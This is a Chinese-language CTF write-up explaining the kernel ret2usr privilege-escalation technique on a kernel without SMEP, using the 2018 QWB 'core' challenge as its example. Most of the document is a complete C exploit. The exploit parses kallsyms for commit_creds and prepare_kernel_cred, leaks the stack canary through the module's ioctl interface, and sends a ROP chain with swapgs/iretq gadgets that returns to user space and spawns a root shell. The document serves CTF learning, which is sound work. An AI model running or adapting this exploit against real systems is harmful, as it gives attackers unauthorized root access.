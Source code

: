 # Kernel ROP ret2usr

## ret2user with no SMEP

**在【未】开启SMAP/SMEP保护的情况下**，也就是启动脚本**没有添加参数`-cpu smep`**的情况下，用户空间无法访问内核空间的数据，但是内核空间可以访问用户空间的数据。

因此ret2usr with no SMEP，也就是可以通过kernel ROP以内核的ring 0权限执行用户空间的代码以完成提权。

### 0x00 原理

通常CTF中的ret2usr还是以执行`commit_creds(prepare_kernel_cred(NULL))`进行提权为主要的攻击手法，不过相比起构造冗长的ROP chain，ret2usr只需我们要提前在用户态程序构造好对应的函数指针、获取相应函数地址后直接执行即可。

>  对于开启了`SMAP/SMEP保护`的 kernel 而言，**内核空间尝试直接访问用户空间会引起kernel panic**

也就是直接在exploit中调用

```c
void ret2user(){
	void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}
```

### 0x01 例题

还是拿[kernel-rop1](/pwnable/220428-kernel-rop1)中的 强网杯2018 - core 举例子

> kernel确实没多少题目

具体的题目分析不写了，相比于正常rop，ret2user也就是可以直接在用户态自己写写个函数来调用`commit_creds(prepare_kernel_cred(NULL))`指令得到root权限。

```c
//  musl-gcc ./ret2user.c --static -masm='intel' -o ./exploit_ret2user

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

#define POP_RDI 0x000b2f;
#define POP_RDX 0x0a0f49;
#define POP_RCX 0x021e53;
#define MOV_RDI_RAX_CALL_RDX 0x01aa6a;
#define SWAPGS_POPFQ 0xa012da;
#define IRETQ 0x3eb448;


// commit_creds(prepare_kernel_cred(NULL))

size_t commit_creds = NULL;
size_t prepare_kernel_cred = NULL;
size_t user_cs,user_ss,user_rflags,user_sp;
// size_t vmlinux_base = 0;
void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("[*] Status has been saved.\n");
}

void core_read(int fd,char *buf){
    ioctl(fd,0x6677889B,buf);
}

void set_off(int fd,size_t off){
    ioctl(fd,0x6677889C,off);
}
void core_copy_func(int fd,size_t n){
    ioctl(fd,0x6677889A,n);
}
void get_shell(){
    if(!getuid()){
        printf("ROOT NOW!");
        system("/bin/sh");
    }else{
        printf("NO ROOT");
        exit(-1);
    }
}

void ret2user(){
	void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}


int main(){
    saveStatus();
    int fd = open("/proc/core",2);
    if(fd < 0){
        printf("cannot open '/proc/core' \n");
        exit(-1);
    }
    printf("[*]Open '/proc/core' ....\n");

    //get addr
    FILE * sys_table_fd = fopen("/tmp/kallsyms","r");
    if(sys_table_fd < 0){
        printf("cannot open '/tmp/kallsyms' \n");
        exit(-1);
    }
    printf("[*]Open '/tmp/kallsyms' ....\n");
    char buf[0x50]={0};
    while(fgets(buf,0x50,sys_table_fd)){
        if(commit_creds & prepare_kernel_cred)
            break;
        if(strstr(buf,"commit_creds") && !commit_creds){
            char hex[20]={0};
            strncpy(hex,buf,16);
            sscanf(hex,"%llx",&commit_creds);
            printf("[*]commit_creds addr: %p\n", commit_creds);
        }
        if(strstr(buf,"prepare_kernel_cred") && !prepare_kernel_cred){
            char hex[20]={0};
            strncpy(hex,buf,16);
            sscanf(hex,"%llx",&prepare_kernel_cred);
            printf("[*]prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
        }
    }

    /*
    [*] '/home/mark/Desktop/pwn/core/vmlinux'
    Arch:     amd64-64-little
    Version:  4.15.8
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0xffffffff81000000)
    RWX:      Has RWX segments
    commit_creds 0x9c8e0
    prepare_kernel_cred 0x09cce0
    */    

    size_t vmlinux_base = commit_creds - 0x9c8e0;
    printf("[*]vmlinux_base : %p\n",vmlinux_base);
    printf("[*]vmlinux_base : %p\n",prepare_kernel_cred - 0x09cce0);

    //get canary
    size_t canary;
    set_off(fd,64); //0x50-0x40
    char buf2[0x50]={0};
    core_read(fd,buf2);
    canary = ((size_t *)buf2)[0];
    printf("[*]Canary : %p\n",canary);

    //ROP
    size_t rop_chain[0x1000]={0};
    int i=0;
    for(;i<10;i++){
        rop_chain[i] = canary;
    }
    rop_chain[i++]=ret2user;

    // swapgs & iretq
    rop_chain[i++]=vmlinux_base + SWAPGS_POPFQ;
    rop_chain[i++]=0;
    rop_chain[i++]=vmlinux_base + IRETQ;

    // getshell
    rop_chain[i++]=(size_t)get_shell;
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp;
    rop_chain[i++] = user_ss;


    write(fd,rop_chain,0x100);
    core_copy_func(fd,0xffffffffffff0000 | (0x100)); // int16 == 0x300
    
    return 0;
}
```

最终提权成功

![](https://pic.imgdb.cn/item/626c089a239250f7c5cd6673.png)


